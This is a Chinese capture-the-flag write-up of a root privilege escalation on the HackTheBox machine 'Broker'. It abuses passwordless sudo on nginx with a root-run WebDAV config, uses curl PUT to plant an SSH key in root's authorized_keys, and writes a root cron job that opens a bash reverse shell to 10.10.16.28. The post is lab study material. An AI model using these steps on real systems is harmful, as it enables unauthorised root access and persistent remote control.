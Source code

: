 ```yaml
---
title: sudo nginx提权学习
categories:
  - Linux
tags:
  - Linux
  - PE
---
```

## 0x00 前言
在[Broker](https://app.hackthebox.com/machines/Broker)这台机器上学的一种提权方式，重点是nginx配置文件的学习，以及如何通过上传文件到任意位置得到root权限。

---
## 0x01 枚举
使用`sudo -l`可以得到如下信息
```bash
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
能使用sudo通过无密码的方式以root用户的权限运行nginx命令

运行`nginx -h`得到帮助信息
```bash
nginx version: nginx/1.18.0 (Ubuntu)
Usage: nginx [-?hvVtTq] [-s signal] [-c filename] [-p prefix] [-g directives]

Options:
  -?,-h         : this help
  -v            : show version and exit
  -V            : show version and configure options then exit
  -t            : test configuration and exit
  -T            : test configuration, dump it and exit
  -q            : suppress non-error messages during configuration testing
  -s signal     : send signal to a master process: stop, quit, reopen, reload
  -p prefix     : set prefix path (default: /usr/share/nginx/)
  -c filename   : set configuration file (default: /etc/nginx/nginx.conf)
  -g directives : set global directives out of configuration file

```
可以看到-c标志能指定nginx服务的配置文件，所以我们可以通过更改配置文件的方式来利用它。

---
## 0x02 通过PUT方法上传公钥
既然可以以root用户运行nginx命令，那么我们可以写一个以root用户运行的nginx服务的配置文件，根目录就为`/`

之后使用`dav_methods PUT;`定义put方法，就可以以root用户的身份上传文件。

在/dev/shm目录下写一个nginx配置文件，名为ix1.conf

```bash
user root;
worker_processes auto;
pid /run/nginx2.pid;
events {
	worker_connections 768;
}
http {
	server {
		listen 1111;
		root /;
		autoindex on;

		dav_methods PUT;
	}	

}
```

1. **`user root;`：**
    - 设置 Nginx 进程的运行用户为 **`root`**。这是指定 Nginx 进程以特定用户身份运行的一种方式。
2. **`worker_processes 4;`：**
    - 指定启动的 Nginx worker 进程的数量为 4。Nginx 使用多进程模型，每个 worker 进程可以处理并发请求。
3. **`pid /run/nginx2.pid;`：**
    - 指定存储主进程 ID 的文件路径。Nginx 主进程的 ID 将被写入此文件，以便后续管理和监控。
4. **`events { ... }`：**
    - 定义与事件相关的配置块，如最大连接数等。
    - **`worker_connections 768;`：** 指定每个 worker 进程的最大连接数。
5. **`http { ... }`：**
    - 定义与 HTTP 相关的配置块。
    - **`server { ... }`：** 定义一个简单的虚拟主机。
        - **`listen 1111;`：** 指定监听的端口号为 1111。
        - **`root /;`：** 指定服务器的根目录为根目录（/），这表示 Nginx 将会从文件系统的根目录提供文件。
        - **`autoindex on;`：** 打开自动目录索引功能，当访问一个目录时，如果没有默认的索引文件（如 index.html），则显示该目录下的文件列表。
        - **`dav_methods PUT;`：** 启用 WebDAV 的 **`PUT`** 方法，允许客户端上传文件到服务器。

这个配置文件的目的是创建一个简单的 Nginx 服务器，监听端口 1337，允许通过 WebDAV 的 **`PUT`** 方法上传文件，同时启用了自动目录索引。请注意，实际生产环境中的配置可能需要更多的安全性和性能优化。

然后使用`sudo nginx -c`指定配置文件

```bash
sudo nginx -c /dev/shm/ix1.conf
```

运行`ss -lntp`可以看到1111端口开放，说明以上配置成功。

```bash
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                                                                                                   
LISTEN 0      511          0.0.0.0:80         0.0.0.0:*    users:(("nginx",pid=924,fd=6),("nginx",pid=923,fd=6),("nginx",pid=922,fd=6))                             
LISTEN 0      4096   127.0.0.53%lo:53         0.0.0.0:*    users:(("systemd-resolve",pid=519,fd=14))                                                                
LISTEN 0      128          0.0.0.0:22         0.0.0.0:*    users:(("sshd",pid=947,fd=3))                                                                            
LISTEN 0      511          0.0.0.0:1111       0.0.0.0:*    users:(("nginx",pid=3859,fd=6),("nginx",pid=3858,fd=6),("nginx",pid=3857,fd=6))                          
LISTEN 0      511          0.0.0.0:12345      0.0.0.0:*    users:(("nginx",pid=1883,fd=6),("nginx",pid=1882,fd=6),("nginx",pid=1881,fd=6),("nginx",pid=1880,fd=6),("nginx",pid=1879,fd=6),("nginx",pid=1878,fd=6))
LISTEN 0      4096               *:61613            *:*    users:(("java",pid=966,fd=145))                                                                          
LISTEN 0      50                 *:61614            *:*    users:(("java",pid=966,fd=148))                                                                          
LISTEN 0      4096               *:61616            *:*    users:(("java",pid=966,fd=143))                                                                          
LISTEN 0      128             [::]:22            [::]:*    users:(("sshd",pid=947,fd=4))                                                                            
LISTEN 0      4096               *:1883             *:*    users:(("java",pid=966,fd=146))                                                                          
LISTEN 0      50                 *:34783            *:*    users:(("java",pid=966,fd=26))                                                                           
LISTEN 0      50                 *:8161             *:*    users:(("java",pid=966,fd=154))                                                                          
LISTEN 0      4096               *:5672             *:*    users:(("java",pid=966,fd=144))
```

然后可以使用`curl`查看主机上的任意文件。

```bash
activemq@broker:/dev/shm$ curl localhost:1111/root/root.txt
xxxxxxxxxxxxxxxxxxxx
```

也可以通过`PUT`方法上传文件到任意位置。

在本机生成一个公私钥对

```bash
ssh-keygen
```

然后通过curl上传（三种方式都行）

```bash
curl -X PUT localhost:1111/root/.ssh/authorized_keys -d "$(cat root.pub)"
curl -T root.pub localhost:1111/root/.ssh/authorized_keys
curl --upload-file root.pub localhost:1111/root/.ssh/authorized_keys
```

然后通过`ssh -i`指定私钥连接。

---
## 0x03 写计划任务反弹shell
可以通过在`/var/spool/cron/crontab`下写一个root用户的计划任务反弹shell

新建一个文件内容如下

```bash
* * * * * bash -c "bash -i >& /dev/tcp/10.10.16.28/9999 0>&1"
```

意思是每一分钟执行一次。

不理解可以看`/etc/crontab`文件

```bash
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

然后上传到`/var/spool/cron/crontabs/root`

<aside> ⚠️ 在 Unix/Linux 系统中，/var/spool/cron/crontabs/ 目录通常包含了每个用户的个人 cron 作业文件。这个目录下的文件名称通常以用户名为基础，对应每个用户的 crontab 文件。这些文件包含了用户通过 crontab -e 命令编辑的定时任务。

</aside>

```bash
curl -T cron localhost:1111/var/spool/cron/crontabs/root
```

等待一分钟
![1.png](/assets/img/2023-11-18-sudo-nginx提权学习/1.png)

